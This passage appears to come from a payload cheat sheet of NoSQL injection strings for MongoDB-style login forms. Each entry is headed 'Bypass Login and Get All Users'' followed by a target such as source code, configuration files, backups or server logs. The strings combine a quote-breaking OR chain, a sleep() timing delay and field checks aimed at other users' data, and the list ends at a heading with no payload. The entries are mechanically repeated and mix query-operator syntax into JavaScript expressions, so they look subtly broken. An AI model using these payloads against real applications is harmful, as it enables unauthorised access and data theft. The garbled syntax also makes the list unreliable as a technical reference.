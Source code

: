 #### Bypass Login and Get All Users' Source Code

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.source_code != null
```

#### Bypass Login and Get All Users' Configuration Files

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.config_files != null
```

#### Bypass Login and Get All Users' Log Files

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.log_files != null
```

#### Bypass Login and Get All Users' Backup Files

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.backup_files != null
```

#### Bypass Login and Get All Users' Temporary Files

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.temp_files != null
```

#### Bypass Login and Get All Users' System Files

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.system_files != null
```

#### Bypass Login and Get All Users' Network Configuration

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_config != null
```

#### Bypass Login and Get All Users' Server Logs

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.server_logs != null
```

#### Bypass Login and Get All Users' Error Logs
